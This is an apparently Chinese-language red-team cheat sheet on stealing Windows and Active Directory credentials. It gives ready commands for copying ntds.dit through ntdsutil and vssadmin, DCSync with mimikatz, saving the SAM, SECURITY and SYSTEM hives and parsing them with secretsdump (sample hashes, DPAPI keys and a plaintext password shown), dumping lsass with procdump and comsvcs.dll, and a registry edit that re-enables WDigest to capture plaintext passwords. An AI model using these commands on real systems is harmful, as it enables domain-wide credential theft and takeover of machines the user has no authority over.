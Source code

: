 # NTDS.dit
ActiveDirtory的数据库,物理路径位于域控下的`C:\Windows\NTDS\ntds.dit`
## ntdsutil.exe
创建快照

`ntdsutil snapshot "active instance ntds" create quit quit`

得到一个GUID

加载快照

`ntdsutil snapshot "mount {GUID}" quit quit`

复制ntds.dit文件

`copy C:\$SNAP_$time_VOLUMEC$\windows\ntds\ntds.dit c:\temp\ntds.dit`

卸载并删除快照

ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit`

## IFM

## vssadmin
创建拷贝<br />`vssadmin create shadow /for=c:`

会得到一个Copy Volume Name<br />复制卷影<br />`copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5(Copy Volumn Name)\windows\NTDS\ntds.dit c:\ntds.dit`<br />删除快照<br />`vssadmin delete shadows /for=c: /quiet`
<a name="xc0ZG"></a>

## Dsync Attack
原理即向DC发送GetNCChange请求,而GetNCChange请求主要用于不同域控之间更新域中的数据.而发起用户需要有三种权限

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes In Filtered Set

而Administrator和Domain Controller组默认拥有该权限<br />`mimikatz “lsadump::dcsync /domain:rd.adsecurity.org /user:Administrator”`获取Administrator用户数据.
<a name="wxQQS"></a>
# LSA secrets


<a name="Ub7eW"></a>
## 转存注册表
`reg save HKLM\SYSTEM system.bin`<br />`reg save HKLM\SECURITY security.bin`<br />`reg save HKLM\SAM sam.bin`
<a name="t2Ffd"></a>
### SECURITY.hive
要求system权限,存储在SECURITY.hive文件中,该文件由BOOTKey/SysKey(该Key存储在SYSTEM.hive中)加密<br />`command:reg query HKLM\SECURITY\Policy\Secrets`<br />在LSA secret中存储了以下信息:

- 域计算机账户:该账户密码默认30天更新一次,该用户用来本地SYSTEM用户和域进行交互,该账户没有administive权限,但该账户可以用来创建银票据或者用以RBCD攻击来作为Administartor登录该机器.
- 服务账户:该账户用来运行一些服务,但只存储了密码和服务名,并没有存储对应的用户名.
- 自动登录密码:如果启用了自动登录功能,则在LSA中存储了自动登录的密码,还可以将该密码存储在HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon 注册表项下的注册表项中DefaulUserName.域和用户名始终分别存储在DefaultDomainName和DefaultUserName中.
- DPAPI密钥:该密钥可用于用户加密自己的敏感数据.
- 最后一个域用户登录该机器的凭据(DCC),该凭据使用的是MSCACHEV2/MSCASH哈希,不能用于Hash传递
<a name="jk7it"></a>
### SAM.hive
该文件保存了本地用户的NT哈希.
<a name="PtZBj"></a>
### SYSTEM.hive
保存了BOOTKey/SysKey.<br />最后调用impacket:<br />`secretsdump.py -system system.bin -security security.bin -sam sam.bin  LOCAL`<br />

```shell
$ secretsdump.py -system system.bin -security security.bin -sam sam.bin  LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xb471eae0e93128b9c8d5780c19ac9f1d 
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash) //本地账户NT哈希
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6535b87abdb112a8fc3bf92528ac01f6:::
user:1001:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Dumping cached domain logon information (domain/username:hash)//域缓存用户hash
CONTOSO.LOCAL/anakin:$DCC2$10240#anakin#2933cad9235d2f502d7bedc2016e6553
CONTOSO.LOCAL/han:$DCC2$10240#han#4a52a6d0d7f3590c68124f4d5f7ef285
[*] Dumping LSA Secrets
[*] $MACHINE.ACC //计算机账户
$MACHINE.ACC:plain_password_hex:59aa6b91e74a0a6fc40efee9f2fb07936a9d69f46397dee82d3ec6ca4d0c01a0293d79e5c040bf564b7938d6c25597816921ec614ad25933af6a2482a8ace4d1dd54dd4bb465384b30046d85f65083e885455ec5f01dcae30df619e3f944eaa008a09e0f7432981f7cdb8dea34e432f00ed92e1ae3e48111326deb2d0f9a6e7d868e24c840b8814d338a4165f90381a4a6b824addb4f71c5908cac4423a4efbc5a4d846c09245930b526a6bec8c678ca838a005dcf5014f8b18426c3e0dbd3921f82c57e6ca025d0258d4536a9e0b68b90ff26c054c992c84d11e95f78c55ca411ee0e5b412cb4fc0f08c28ca2d79996
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b13dae64def5f205f382a0ab4174eb85
[*] DefaultPassword //自动登录密码
(Unknown User):user
[*] DPAPI_SYSTEM  //DPAPI密钥
dpapi_machinekey:0x6880eb76862df7875705885938102c696717eb18
dpapi_userkey:0x828326418633117212de44bcda10806fc6765d4a
[*] NL$KM 
 0000   0B BC 2E DB A1 A7 E2 42  56 6D B8 4B 5A 37 79 A4   .......BVm.KZ7y.
 0010   53 51 75 6D 64 7F 9A BF  DC BF C2 83 F4 64 02 A6   SQumd........d..
 0020   5E E8 53 AB E5 4B 35 A4  5B 19 7E 97 E0 CA 32 6C   ^.S..K5.[.~...2l
 0030   77 68 E8 F1 C0 54 AD 7B  03 F7 BE 59 2E 59 C3 93   wh...T.{...Y.Y..
NL$KM:0bbc2edba1a7e242566db84b5a3779a45351756d647f9abfdcbfc283f46402a65ee853abe54b35a45b197e97e0ca326c7768e8f1c054ad7b03f7be592e59c393
[*] _SC_mysql //服务账户的密码,只有服务名无对应的用户名,但可以根据服务名手动查询对应的用户名,Exp:Get-WmiObject win32_service -Filter "name='mysql'" | select -ExpandProperty startname
(Unknown User):Solo1234!
[*] Cleaning up...
```
<a name="Kumex"></a>
## CreateDump.exe
.net5中的工具.
<a name="ZGW6K"></a>
## Procdump
`procdump.exe -accepteula -ma lsass.exe hash.dump`

1. 最新v10.1版本在win2012、win2016上不能使用，在win10、win2019上面可以成功使用。而8.0全部系统都没有问题。
<a name="v0L02"></a>
## comsvcs.dll
[comsvcs.dll](https://lolbas-project.github.io/lolbas/Libraries/Comsvcs/)<br />`rundll32 C:\windows\system32\comsvcs.dll MiniDump "[LSASS_PID] dump.bin full"`
<a name="dSOBc"></a>
## werfault.exe
[链接](https://www.cnblogs.com/zUotTe0/p/14553082.html)<br />[链接](https://raw.githubusercontent.com/BL0odz/POSTS/main/LsassDump_with_RtlReportSilentProcessExit/main.cpp)​
<a name="dm58g"></a>
## SQLDumper.exe
Microsoft SQL中的工具.
<a name="NzTKK"></a>
## Mimakatz.exe
<a name="nxf5t"></a>
#### Some Commands:

- sekurlsa::logonpasswords: Extracts the NT hashes and passwords.
- sekurlsa::ekeys: Gets the Kerberos keys.
- sekurlsa::tickets: Retrieves the Kerberos tickets stored in the machine.
- 是否可抓取明文密码

补丁:KB2871997,关闭了Wdigest功能,win2012及以上也默认关闭<br />开关Wdigest功能:<br />`reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1(0) /f`<br />手动开启后,下次用户登录后即可抓取到明文密码
<a name="ByjJi"></a>
## Impacket
<a name="WeLMB"></a>
## Credential Guard
[参考](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-how-it-works)
